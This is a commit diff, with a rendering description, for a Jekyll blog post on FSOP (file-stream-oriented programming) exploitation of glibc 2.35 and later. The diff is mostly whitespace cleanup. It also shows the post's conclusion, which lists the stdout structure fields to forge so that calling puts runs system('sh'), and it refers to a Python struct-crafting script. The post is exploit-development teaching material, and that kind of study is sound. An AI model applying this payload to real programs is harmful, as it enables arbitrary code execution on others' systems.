

Before and after one commit to hareh4ru/hareh4ru.github.io, a Jekyll site: the page built from _posts/2023-11-23-FSOP-for-libc-2.35-and-over.md, in a window 1280 px wide and 900 px high, scrolled down 8622 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a script that is not in the unit is left out; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2023-11-23-FSOP-for-libc-2.35-and-over.md

````diff
--- a/_posts/2023-11-23-FSOP-for-libc-2.35-and-over.md
+++ b/_posts/2023-11-23-FSOP-for-libc-2.35-and-over.md
@@ -67,7 +67,6 @@ There are several member variables, and we will only discuss about the necessary
 
 <br/>
 <br/>
-
 ## Following the control flow of `puts`
 ---
 
@@ -132,7 +131,6 @@ From below, We'll examine exactly how it works.
 
 <br/>
 <br/>
-
 ## Missing validation in `_wide_vtable`
 ---
 ```c
@@ -184,9 +182,6 @@ Then calling `puts` will further call `_IO_wfile_jumps->_IO_file_overflow` inste
 
 <br/>
 <br/>
-
-
-
 ## Code Flow
 ---
 Now let's follow the exact code flow to reach arbitrary code execution.
@@ -199,7 +194,6 @@ As there are a few constraints to follow this code path, I brought the constrain
 
 <br/>
 <br/>
-
 ### puts
 ```c
 // https://elixir.bootlin.com/glibc/glibc-2.35/source/libio/ioputs.c#L31
@@ -226,7 +220,6 @@ _IO_puts (const char *str)
 
 <br/>
 <br/>
-
 ### _IO_wfile_overflow
 ```c
 wint_t
@@ -256,8 +249,6 @@ _IO_wfile_overflow (FILE *f, wint_t wch)
 
 <br/>
 <br/>
-
-
 ### _IO_wdoallocbuf
 ```c
 void
@@ -277,8 +268,6 @@ _IO_wdoallocbuf (FILE *fp)
 
 <br/>
 <br/>
-
-
 ## Constraints
 ---
 By satisfying these constraints, calling `puts` will call `system("sh")`;
@@ -309,7 +298,6 @@ To satisfy `vtable->__xsputn == _IO_wfile_jumps.__overflow`, `fp->vtable` should
 
 <br/>
 <br/>
-
 ### fp->_flags
 ```c
 _flags & _IO_NO_WRITES == 0
@@ -338,20 +326,20 @@ and `stdout->_unused2[20]` to `p64(libc.symbols['system'])+ b"\x00"*4 + p64(libc
 
 <br/>
 <br/>
-
-
 ## Conclusion
 ---
-`fp->_flags == b"\x01\x01;sh;\x00\x00"`
-`fp->_lock == libc.symbols['_IO_2_1_stdout_'] + 0x10`
-`fp->vtable = libc['_IO_wfile_jumps'] - 0x20`
-`fp->_wide_data = libc.symbols['_IO_2_1_stdout_'] - 16`
-`fp->_IO_read_ptr == 0`
-`fp->_IO_write_base == 0`
-`fp->_unused2 = p64(libc.symbols['system'])+ b"\x00"*4 + p64(libc.symbols['_IO_2_1_stdout_'] + 196 - 104)`
+```c
+fp->_flags == b"\x01\x01;sh;\x00\x00"
+fp->_lock == libc.symbols['_IO_2_1_stdout_'] + 0x10
+fp->vtable = libc['_IO_wfile_jumps'] - 0x20
+fp->_wide_data = libc.symbols['_IO_2_1_stdout_'] - 16
+fp->_IO_read_ptr == 0
+fp->_IO_write_base == 0
+fp->_unused2 = p64(libc.symbols['system'])+ b"\x00"*4 + p64(libc.symbols['_IO_2_1_stdout_'] + 196 - 104)
+```
 
 By configuring stdout like above, calling `puts` will call `system("sh")`.
-I made a simple python script to make this struct.
+I made a simple python script to craft this struct easily.
 
 ```python
 libc.address = libc_base
@@ -393,8 +381,6 @@ FSOP = FSOP_struct(flags = u64(b"\x01\x01;sh;\x00\x00"), \
 
 <br/>
 <br/>
-
-
 ## Reference
 ---
 * [Deep dive into FSOP](https://niftic.ca/posts/fsop/)
````
